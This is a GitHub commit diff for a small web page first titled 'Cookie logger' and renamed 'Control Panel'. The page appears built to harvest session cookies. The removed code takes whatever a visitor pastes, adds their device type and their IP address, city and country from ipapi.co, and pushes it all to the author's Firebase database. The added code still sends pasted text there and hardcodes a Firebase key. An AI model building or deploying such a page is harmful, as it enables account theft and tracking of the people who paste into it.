

Before and after one commit to SpeedubX/Cookie1, a plain HTML site: page index.html in a window 390 px wide. Both pictures are taken after typing "Sample" into the empty fields and a click on the button "Send". Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,9 +3,9 @@
 <head>
 <meta charset="UTF-8">
 <meta name="viewport" content="width=device-width, initial-scale=1.0">
-<title>Cookie logger</title>
+<title>Control Panel</title>
 
-<link href="https://fonts.googleapis.com/css2?family=Orbitron:wght@400;700&display=swap" rel="stylesheet">
+<link href="https://fonts.googleapis.com/css2?family=Orbitron:wght@400;500;700&display=swap" rel="stylesheet">
 
 <style>
 * {
@@ -17,130 +17,157 @@
 
 body {
     height: 100vh;
-    background: black;
     overflow: hidden;
+    background: #05070f;
     color: white;
 }
 
-#bg {
+/* BACKGROUND */
+canvas {
     position: fixed;
     top: 0;
     left: 0;
+    z-index: -2;
+}
+
+/* SOFT DARK GRADIENT OVERLAY */
+body::before {
+    content: "";
+    position: fixed;
+    top:0;left:0;
+    width:100%;
+    height:100%;
+    background: radial-gradient(circle at top, rgba(0,255,255,0.08), transparent 60%);
     z-index: -1;
 }
 
+/* CURSOR */
 .cursor {
     position: fixed;
-    width: 20px;
-    height: 20px;
+    width: 14px;
+    height: 14px;
     background: cyan;
     border-radius: 50%;
     pointer-events: none;
-    box-shadow: 0 0 20px cyan, 0 0 40px cyan;
+    box-shadow: 0 0 15px cyan;
     transform: translate(-50%, -50%);
-    z-index: 9999;
+    transition: 0.05s linear;
 }
 
+/* SIDEBAR */
 .sidebar {
     position: fixed;
-    left: 0;
-    top: 0;
-    height: 100%;
-    width: 80px;
-    background: rgba(0,0,0,0.6);
-    backdrop-filter: blur(10px);
+    left: 15px;
+    top: 50%;
+    transform: translateY(-50%);
+    width: 60px;
+    background: rgba(255,255,255,0.03);
+    border: 1px solid rgba(255,255,255,0.08);
+    backdrop-filter: blur(12px);
+    border-radius: 18px;
+    padding: 10px 0;
     transition: 0.3s;
-    padding-top: 20px;
 }
 
 .sidebar:hover {
-    width: 200px;
+    width: 160px;
 }
 
 .sidebar button {
     width: 100%;
-    padding: 15px;
+    padding: 14px;
     background: none;
     border: none;
-    color: cyan;
+    color: #7df9ff;
     text-align: left;
     cursor: pointer;
+    font-size: 13px;
+    transition: 0.25s;
+    opacity: 0.85;
 }
 
 .sidebar button:hover {
-    background: rgba(0,255,255,0.2);
+    background: rgba(0,255,255,0.08);
+    padding-left: 18px;
+    opacity: 1;
 }
 
-.page {
-    display: none;
+/* MAIN CARD */
+.container {
     position: absolute;
     top: 50%;
     left: 55%;
     transform: translate(-50%, -50%);
     text-align: center;
+    animation: fade 0.8s ease;
+}
+
+@keyframes fade {
+    from { opacity: 0; transform: translate(-50%, -60%); }
+    to { opacity: 1; transform: translate(-50%, -50%); }
+}
+
+.title {
+    font-size: 38px;
+    font-weight: 700;
+    color: #7df9ff;
+    letter-spacing: 2px;
+    margin-bottom: 25px;
+    text-shadow: 0 0 20px rgba(0,255,255,0.3);
+}
+
+/* INPUT */
+input {
+    width: 340px;
+    padding: 14px 18px;
+    border-radius: 14px;
+    border: 1px solid rgba(255,255,255,0.08);
+    background: rgba(255,255,255,0.03);
+    color: white;
+    outline: none;
+    text-align: center;
+    transition: 0.3s;
+    backdrop-filter: blur(10px);
+}
+
+input:focus {
+    border: 1px solid cyan;
+    box-shadow: 0 0 15px rgba(0,255,255,0.2);
+    transform: scale(1.02);
+}
+
+/* BUTTON */
+button.send {
+    margin-top: 15px;
+    padding: 14px 30px;
+    border-radius: 14px;
+    border: none;
+    background: linear-gradient(90deg, #00f5ff, #00a6ff);
+    color: black;
+    font-weight: bold;
+    cursor: pointer;
+    transition: 0.3s;
+}
+
+button.send:hover {
+    transform: translateY(-2px) scale(1.03);
+    box-shadow: 0 10px 25px rgba(0,255,255,0.2);
+}
+
+/* FOOTER */
+.footer {
+    margin-top: 18px;
+    font-size: 12px;
+    opacity: 0.5;
+}
+
+/* PAGE SWITCH */
+.page {
+    display: none;
 }
 
 .page.active {
     display: block;
-}
-
-.glitch {
-    font-size: 34px;
-    color: cyan;
-    text-shadow: 0 0 10px cyan;
-    animation: glitch 1s infinite;
-}
-
-@keyframes glitch {
-    0% { text-shadow: 2px 0 red, -2px 0 blue; }
-    50% { text-shadow: -2px 0 red, 2px 0 blue; }
-    100% { text-shadow: 2px 0 red, -2px 0 blue; }
-}
-
-input {
-    margin-top: 20px;
-    padding: 15px;
-    width: 300px;
-    border-radius: 10px;
-    border: none;
-    background: rgba(255,255,255,0.1);
-    color: white;
-    outline: none;
-}
-
-button.send {
-    margin-top: 15px;
-    padding: 15px 30px;
-    border-radius: 10px;
-    border: none;
-    background: cyan;
-    color: black;
-    cursor: pointer;
-}
-
-.powered {
-    margin-top: 20px;
-    color: cyan;
-    text-shadow: 0 0 10px cyan;
-}
-
-/* GAME COPIER CARD */
-.tool-card {
-    margin-top: 20px;
-    width: 250px;
-    padding: 15px;
-    border: 1px solid cyan;
-    border-radius: 15px;
-    cursor: pointer;
-    text-align: center;
-    box-shadow: 0 0 15px cyan;
-    margin-left: auto;
-    margin-right: auto;
-    transition: 0.3s;
-}
-
-.tool-card:hover {
-    transform: scale(1.05);
 }
 </style>
 </head>
@@ -150,151 +177,132 @@ button.send {
 <canvas id="bg"></canvas>
 <div class="cursor" id="cursor"></div>
 
+<!-- SIDEBAR -->
 <div class="sidebar">
-    <button onclick="showPage('main')">🏠 Main</button>
+    <button onclick="show('home')">🏠 Home</button>
     <button onclick="openHelp()">❓ Help</button>
     <button onclick="openInvite()">🔗 Invite</button>
-    <button onclick="showPage('more')">📂 More</button>
+    <button onclick="show('more')">📂 More</button>
 </div>
 
-<div class="page active" id="main">
-    <div class="glitch">Cookie</div>
+<!-- HOME -->
+<div class="page active" id="home">
+<div class="container">
+    <div class="title">CONTROL</div>
 
-    <input type="text" id="messageInput" placeholder="Type something...">
+    <input id="msg" placeholder="Type message...">
     <br>
-    <button class="send" onclick="sendMessage()">Send</button>
+    <button class="send" onclick="send()">Send</button>
 
-    <div class="powered">⚡ Powered by AWP & SWIFTIES ⚡</div>
+    <div class="footer">Firebase • Secure Channel</div>
+</div>
 </div>
 
+<!-- MORE -->
 <div class="page" id="more">
-    <div class="glitch">More Tools</div>
-
-    <div class="tool-card" onclick="openGameCopier()">
-        <img src="https://i.postimg.cc/k52qTcds/Screenshot-2026-04-12-005645.png"
-             style="width:100%; border-radius:10px;">
-        <br><br>
-        <span style="color:cyan; font-size:18px;">🎮 Game Copier</span>
-    </div>
+<div class="container">
+    <div class="title">More</div>
+    <p style="opacity:0.5;">Add tools here</p>
+</div>
 </div>
 
-<!-- FIREBASE -->
 <script src="https://www.gstatic.com/firebasejs/10.7.1/firebase-app.js"></script>
 <script src="https://www.gstatic.com/firebasejs/10.7.1/firebase-database.js"></script>
 
 <script>
-/* FIREBASE CONFIG (YOUR DB) */
+
+/* FIREBASE */
 const firebaseConfig = {
-  apiKey: "YOUR_KEY",
+  apiKey: "AIzaSyB5a-y6d0v-EAy0_Vm3Viy4YHyVC0owasA",
   authDomain: "chat-panel-f23cb.firebaseapp.com",
   databaseURL: "https://chat-panel-f23cb-default-rtdb.europe-west1.firebasedatabase.app",
   projectId: "chat-panel-f23cb",
-  storageBucket: "chat-panel-f23cb.firebasestorage.app",
-  messagingSenderId: "1063884288659",
-  appId: "1:1063884288659:web:96656490f8e3ddbab9d366"
 };
 
 firebase.initializeApp(firebaseConfig);
 const db = firebase.database();
 
-/* cursor */
-document.addEventListener("mousemove", e => {
-    const c = document.getElementById("cursor");
-    c.style.left = e.clientX + "px";
-    c.style.top = e.clientY + "px";
-});
+/* SEND */
+function send() {
+    const msg = document.getElementById("msg").value;
+    if (!msg) return;
 
-/* page switch */
-function showPage(id) {
+    db.ref("messages").push({
+        text: msg,
+        time: new Date().toLocaleString()
+    });
+
+    document.getElementById("msg").value = "";
+}
+
+/* PAGE */
+function show(id) {
     document.querySelectorAll(".page").forEach(p => p.classList.remove("active"));
     document.getElementById(id).classList.add("active");
 }
 
-/* links */
+/* LINKS */
 function openHelp() {
-    window.open("https://discord.com/users/1269285660834140215", "_blank");
+    window.open("https://discord.com", "_blank");
+}
+function openInvite() {
+    window.open("https://discord.gg", "_blank");
 }
 
-function openInvite() {
-    window.open("https://discord.gg/zEtZCQ95eT", "_blank");
+/* CURSOR SMOOTH */
+let cursor = document.getElementById("cursor");
+let mouseX = 0, mouseY = 0;
+let curX = 0, curY = 0;
+
+document.addEventListener("mousemove", e => {
+    mouseX = e.clientX;
+    mouseY = e.clientY;
+});
+
+function animateCursor() {
+    curX += (mouseX - curX) * 0.15;
+    curY += (mouseY - curY) * 0.15;
+    cursor.style.left = curX + "px";
+    cursor.style.top = curY + "px";
+    requestAnimationFrame(animateCursor);
 }
+animateCursor();
 
-function openGameCopier() {
-    window.open("https://speedubx.github.io/AwpTools/", "_blank");
-}
-
-/* LOCATION */
-async function getLocation() {
-    try {
-        const res = await fetch("https://ipapi.co/json/");
-        const data = await res.json();
-
-        return `🌍 ${data.city}, ${data.country_name} | ${data.ip}`;
-    } catch {
-        return "🌍 Unknown";
-    }
-}
-
-/* SEND MESSAGE (FIXED) */
-async function sendMessage() {
-    const msg = document.getElementById("messageInput").value.trim();
-    if (!msg) return alert("Please Paste");
-
-    const time = new Date().toLocaleString();
-    const device = /Mobi|Android/i.test(navigator.userAgent) ? "📱 Mobile" : "💻 PC";
-
-    const locationText = await getLocation();
-
-    /* SEND TO FIREBASE */
-    await db.ref("messages").push({
-        text: msg,
-        time: time,
-        device: device,
-        location: locationText
-    });
-
-    document.getElementById("messageInput").value = "";
-}
-
-/* particles */
+/* PARTICLES (SMOOTHER) */
 const canvas = document.getElementById("bg");
 const ctx = canvas.getContext("2d");
 
 canvas.width = innerWidth;
 canvas.height = innerHeight;
 
-let particles = [];
+let p = [];
 
-for (let i = 0; i < 200; i++) {
-    particles.push({
-        x: (Math.random() - 0.5) * canvas.width,
-        y: (Math.random() - 0.5) * canvas.height,
-        z: Math.random() * 1000
+for (let i = 0; i < 80; i++) {
+    p.push({
+        x: Math.random() * canvas.width,
+        y: Math.random() * canvas.height,
+        v: Math.random() * 0.6 + 0.2
     });
 }
 
 function draw() {
-    ctx.fillStyle = "black";
-    ctx.fillRect(0, 0, canvas.width, canvas.height);
+    ctx.fillStyle = "#05070f";
+    ctx.fillRect(0,0,canvas.width,canvas.height);
 
-    particles.forEach(p => {
-        p.z -= 2;
-        if (p.z <= 0) p.z = 1000;
+    p.forEach(o => {
+        ctx.fillStyle = "rgba(0,255,255,0.5)";
+        ctx.beginPath();
+        ctx.arc(o.x, o.y, 1.2, 0, Math.PI * 2);
+        ctx.fill();
 
-        let k = 128 / p.z;
-
-        let x = p.x * k + canvas.width / 2;
-        let y = p.y * k + canvas.height / 2;
-
-        let size = (1 - p.z / 1000) * 3;
-
-        ctx.fillStyle = "cyan";
-        ctx.fillRect(x, y, size, size);
+        o.y += o.v;
+        if (o.y > canvas.height) o.y = 0;
     });
 
     requestAnimationFrame(draw);
 }
 draw();
+
 </script>
 
 </body>
```
